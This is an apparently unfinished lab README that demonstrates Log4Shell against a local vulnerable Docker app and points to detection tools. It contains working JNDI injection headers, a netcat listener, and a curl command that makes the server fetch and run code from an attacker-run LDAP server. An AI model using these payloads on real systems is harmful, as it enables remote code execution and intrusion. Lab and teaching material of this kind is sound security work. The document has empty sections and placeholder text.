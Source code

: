 # Log4J-Demo

## What is Log4J? 

- A logging tool, written in Java, that is commonly used in many applications across the internet

## Setting Up Environment

First get the vulnerable docker and run it using [^1]: 

```sh
docker pull ghcr.io/christophetd/log4shell-vulnerable-app:latest
docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app@sha256:6f88430688108e512f7405ac3c73d47f5c370780b94182854ea2cddc6bd59929
```

## Finding the Exploit 

The docker container will now be running on `localhost:8080`. Go there in *BurpSuit* and send the `GET` request to the repeter. The request should look something like this: 

```http
GET / HTTP/1.1
Host: localhost:8080
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

Now we are going to see if the server is vulnerable to *Log4J*. First try changing the `HTTP` headers to the following `JNDI` command:

```
${jndi:ldaps//YOUR_IP:553}
```

We are now going to start listening on our local machine using *Netcat* to see if any of these headers worked: 

```sh
nc -lvnp 553
```

The `GET` request should now look something like this: 

```http
GET / HTTP/1.1
Host: localhost:8080
Cache-Control: ${jndi:ldaps//YOUR_IP:553}
sec-ch-ua: ${jndi:ldaps//YOUR_IP:553}
sec-ch-ua-mobile: ${jndi:ldaps//YOUR_IP:553}
sec-ch-ua-platform: ${jndi:ldaps//YOUR_IP:553}
Upgrade-Insecure-Requests: ${jndi:ldaps//YOUR_IP:553}
User-Agent: ${jndi:ldaps//YOUR_IP:553}
Accept: ${jndi:ldaps//YOUR_IP:553}
Sec-Fetch-Site: ${jndi:ldaps//YOUR_IP:553}
Sec-Fetch-Mode: ${jndi:ldaps//YOUR_IP:553}
Sec-Fetch-User: ${jndi:ldaps//YOUR_IP:553}
Sec-Fetch-Dest: ${jndi:ldaps//YOUR_IP:553}
Accept-Encoding: ${jndi:ldaps//YOUR_IP:553}
Accept-Language: ${jndi:ldaps//YOUR_IP:553}
Connection: close
```

> **NOTE:** you will need to put in the `JNDI` request one by one to see which `HTTP` header is vulnerable. 

None of these `HTTP` headers are vulnerable, you can now try putting in new one to see if any of those are vulnerable. This server happens to have a *Log4J* vulnerablility on the `X-Api-Version` header. 

If you put the following response in the `HTTP` request, you should get a response in *Netcat*: 

```http
X-Api-Version: ${jndi:ldaps//YOUR_IP:553}
```

This tells you that the server is vulnerable to the exploit. 

## Exploitation 

We will be using a tool called [JNDIExploit](http://web.archive.org/web/20211211031401/https://objects.githubusercontent.com/github-production-release-asset-2e65be/314785055/a6f05000-9563-11eb-9a61-aa85eca37c76?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20211211%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20211211T031401Z&X-Amz-Expires=300&X-Amz-Signature=140e57e1827c6f42275aa5cb706fdff6dc6a02f69ef41e73769ea749db582ce0&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=314785055&response-content-disposition=attachment%3B%20filename%3DJNDIExploit.v1.2.zip&response-content-type=application%2Foctet-stream) to exploit the server. This program contains a "`LDAP` & `HTTP` servers for exploiting insecure-by-default `Java JNDI API`". There is a `JAR` file provided in this repo called `LDAP-Server.jar` to run it, use the following command as a template to run the `LDAP` server: 

```sh
java -jar LDAP-Server.jar -i YOUR_IP -p 8888
```

Once you start the `LDAP` server, we need to create a command to exploit the server. We will use the following as as a template: 

```http
X-Api-Version: ${jndi:ldap://LDAP_SERVER_IP:1389/Basic/Command/COMMAND_TO_EXECUTE_URL_ENCODED} 
```

For example the following command will add a file called `pwned` to the `/tmp` directory: 

```sh
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://LDAP_SERVER_IP:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

> ℹ️ **NOTE** 
> **NOTE:** This can also be used *BurpSuite* by adding the following line to the origal reqest: 
> ```http
> X-Api-Version: ${jndi:ldap://LDAP_SERVER_IP:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}
> ```

Now you can execute any command you want. 

## Why this was such a big deal

The process we just did was very manual but a bot can easily be set up to do this. This is exactly what happened when the vulnerabilty was discovered. There were at least 10 major botnets were doing masscans for *Log4J* [^2]. Once you have all the vulnerable machines, you can then create a program that does remote code exicution on the targets. 
## Are you suffereing from *Log4J*? 

One of the best resources for *Log4J* is [`NCSC-NL/log4shell` GitHub Page](https://github.com/NCSC-NL/log4shell). It contains detailed documentation on: 

- Hunting
- Indicators of Compromise
- Detection & Mitigation
- Scanning 
- Known Vulnerable Software
- Parsing Tools

We will be using 2 tools mentioned in this repository. 

### 1. [log4j-finder](https://github.com/fox-it/log4j-finder)

[log4j-finder](https://github.com/fox-it/log4j-finder) "identifies `log4j2` libraries on your filesystem using a list of *known bad* and *known good* MD5 hashes of specific files". This means that it runs locally on the machine instead of scanning externally. To scan for the Log4J vulnerability, you will have to get into a termail of the docker container. While the container is running, use the following command: 

```sh

```

## Log4J Vulnerable Code Explained



## Sources  

### Directly Used

- [`NCSC-NL/log4shell` GitHub Page](https://github.com/NCSC-NL/log4shell)

### Tools 

- 

### Good to Know

- 

### Honorable Mentions 

- 

> 👍 Success
> 
> Vitae reprehenderit at aliquid error voluptates eum dignissimos.

[^1]: [Docker container created by christophetd](https://github.com/christophetd/log4shell-vulnerabre-app) 
[^2]: [Ten families of malicious samples are spreading using the Log4j2 vulnerability Now](https://blog.netlab.360.com/ten-families-of-malicious-samples-are-spreading-using-the-log4j2-vulnerability-now/) 
